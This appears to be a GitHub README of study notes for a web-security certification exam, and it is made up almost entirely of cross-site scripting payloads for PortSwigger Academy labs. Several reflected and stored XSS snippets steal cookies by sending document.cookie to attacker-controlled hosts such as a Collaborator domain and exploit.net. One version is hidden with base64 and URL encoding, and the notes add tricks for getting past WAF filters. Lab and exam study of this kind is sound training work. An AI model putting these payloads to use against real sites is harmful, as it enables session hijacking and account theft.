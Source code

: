 
# Burp-Suite-Certified-Practitioner-Exam-Study
PortSwigger Academy - Burp Suite Certified Practitioner Exam Study Notes

## Cross Site Scripting

+ [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
+ [PayloadsAllTheThings (XSS)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#xss-in-htmlapplications)  

### Cookie Stealers

### Reflected XSS in Search with WAF
>Search with Reflected XSS deliver Phishing link to victim with cookie stealing payload
<sub>WAF is preventing dangerous search filters and tags!</sub>
```JavaScript
fetch("https://Collaborator.oastify.com/?c=" + btoa(document['cookie']))
```
<sup>Base64 encode the payload</sup>
```
ZmV0Y2goImh0dHBzOi8vODM5Y2t0dTd1b2dlZG02YTFranV5M291dGx6Y24yYnIub2FzdGlmeS5jb20vP2M9IiArIGJ0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk=
```
<sub>Test payload on our own session in Search</sub>
```JavaScript
"+eval(atob("ZmV0Y2goImh0dHBzOi8vODM5Y2t0dTd1b2dlZG02YTFranV5M291dGx6Y24yYnIub2FzdGlmeS5jb20vP2M9IiArIGJ0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk="))}//
```  

+ Using the **eval()** method evaluates or executes an argument. 
+ Using **atob()** or **btoa()** is function used for encoding to and from base64 formated strings.
+ If **eval()** being blocked then Alternatives:
  + setTimeout("code")
  + setInterval("code)
  + setImmediate("code")
  + Function("code")()
  

![This image show after entering the above into search and the collaborator receiving request with base64 cookie value from us.](xss1.png)  

>Hosting the **IFRAME** with eval() and fetch() payload on web exploit server, respectively base64 encoded and URL encoded.  

```html
<iframe src="https://TARGET.web-security-academy.net/?SearchTerm=%22%2b%65%76%61%6c%28%61%74%6f%62%28%22%5a%6d%56%30%59%32%67%6f%49%6d%68%30%64%48%42%7a%4f%69%38%76%4f%44%4d%35%59%32%74%30%64%54%64%31%62%32%64%6c%5a%47%30%32%59%54%46%72%61%6e%56%35%4d%32%39%31%64%47%78%36%59%32%34%79%59%6e%49%75%62%32%46%7a%64%47%6c%6d%65%53%35%6a%62%32%30%76%50%32%4d%39%49%69%41%72%49%47%4a%30%62%32%45%6f%5a%47%39%6a%64%57%31%6c%62%6e%52%62%4a%32%4e%76%62%32%74%70%5a%53%64%64%4b%53%6b%3d%22%29%29%7d%2f%2f"/>
```
![(Deliver reflected xss to steal victim cookie.](deliver-reflected-xss-to-steal-victim-cookie.png)

### Reflected XSS in Search with blocked Tags
>Reflected XSS into HTML context with most tags and attributes blocked Bypass WAF
<sup>Body and event **'onresize'** is only allowed</sup>
```JavaScript
?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```
<sup>Body and event **'onpopstate'** is only allowed</sup>
```JavaScript
?search=%22%3E%3Cbody%20onpopstate=print()>
```
[onpopstate event (XSS)](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onpopstate


#### URL and Base64 online encoders and decoders  
[URL Decode and Encode](https://www.urldecoder.org/) 
[BASE64 Decode and Encode](https://www.base64encode.org/)    
  
### Stored XSS

#### Blog post comment section
```html
<img src="1" onerror="window.location='http://exploit.net/cookie='+document.cookie">
```  

#### Product and Store lookup
```html
?productId=1&storeId="></select><img src=x onerror=this.src='http://exploit.net/?'+document.cookie;>
```  

#### Stored XSS Blog post
```JavaScript
<script>
document.write('<img src="http://exploit.net?cookieStealer='+document.cookie+'" />');
</script>
```  

#### Fetch API Cookie Stealer in blog comment
```JavaScript
<script>
fetch('https://exploit.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

